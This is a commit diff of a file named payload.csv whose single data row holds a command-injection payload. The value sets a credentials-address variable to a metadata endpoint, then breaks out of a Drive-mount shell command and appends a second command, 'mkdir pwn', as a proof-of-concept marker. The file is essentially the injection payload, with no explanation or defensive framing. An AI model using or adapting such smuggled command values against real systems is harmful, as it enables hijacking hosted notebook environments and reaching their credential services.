

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2,3
-TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #', 13
+TBE_EPHEM_CREDS_ADDR='172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E \'Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream\'; echo \'drive EXITED\'; ) & mkdir pwn & #'#, 13
```
